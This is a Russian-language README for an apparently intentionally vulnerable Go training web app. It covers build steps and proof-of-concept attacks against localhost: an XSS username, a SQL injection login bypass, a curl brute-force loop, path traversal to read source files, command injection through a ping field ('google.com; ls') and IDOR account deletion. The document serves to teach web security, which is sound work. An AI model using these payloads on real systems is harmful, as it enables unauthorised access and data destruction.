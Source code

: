 ## 📃 Инструкция по сборке и запуску приложения

### Требования

Для успешной сборки этого приложения вам потребуется:

- Go (версия 1.18 и выше)
- gcc (установленный и доступный в системе, необходим для sqlite3)

### Сборка и запуск

Для сборки приложения выполните следующие команды:

```bash
git clone https://github.com/Stepashka20/not-vuln-app
cd vuln-app
go build -o vuln-app
```

Перед запуском скопируйте и заполните `.env`:
```bash
cp .env.example .env
```

Для запуска приложения выполните следующую команду:

```bash
./vuln-app
```

После этого приложение будет доступно по адресу http://localhost:8080

## 👨🏻‍💻 Proof of Concept

### 1. XSS
1. Зарегестрируйтесь с ником `<script>alert(1)</script>`:
2. После этого в профиле появляется алерт с цифрой 1.

### 2. SQLI
1. Зарегестрируйте юзера с ником 'admin': 
```bash
curl 'http://localhost:8080/register' --data-raw 'username=admin&password=supersecurepassword'
```
2. Допустим мы знаем что админ есть в системе. Тогда мы можем войти через его аккаунт:
```bash
1. Логин: a' UNION SELECT 'admin','$2y$04$QMuPN3FQ4EtmNAx.mPGY5e3C9UIibGaX/U.uvknhOLadNwtEA.iH6' --
2. Пароль: 1234
```
3. Вход от админа успешен

### 3. Brute force
1. Запустите испровизированный брут, который будет перебирать пароль: 
```bash
seq 50 | xargs -P50 -I{} curl -s -o /dev/null -w "%{http_code}\n" 'http://localhost:8080/login' --data-raw 'username=admin&password={}'
```
2. Как видно, сервер не ограничивает нас в количестве запросов, поэтому мы можем перебрать пароль бесконечно

### 4. Path Traversal
1. В профиле пользователя загрузите любой файл в секции загрузки "любимого файла"
2. В профиле появится кнопка для скачивания файла вида: 
```bash
http://localhost:8080/files?name=e5fedb3b-9717-44b6-a68b-a2bb042f4409.png
```
3. После этого мы можем скачать любой файл с сервера, заменив имя файла в ссылке:
```bash
curl http://localhost:8080/files?name=../main.go
```

### 5. OS command injection
1. Перейдите в утилиту Ping:
```bash
http://localhost:8080/ping
```
2. введите в поле для ввода для сайта:
```bash
google.com; ls
```
3. После этого вы увидите список файлов в директории проекта

### 6. IDOR
1. Зарегестрируйте двух юзеров:
```bash
curl 'http://localhost:8080/register' --data-raw 'username=user1&password=supersecurepassword'
curl 'http://localhost:8080/register' --data-raw 'username=user2&password=supersecurepassword'
```
2. Войдите в систему под первым юзером:
```bash
curl 'http://localhost:8080/login' --data-raw 'username=user1&password=supersecurepassword'
```
3. В профиле будет кнопка для удаления своего аккаунта, которая делает запрос на:
```bash
http://localhost:8080/delete?user=user1
```
4. После этого мы можем удалить любого юзера, заменив имя в запросе:
```bash
http://localhost:8080/delete?user=user2
```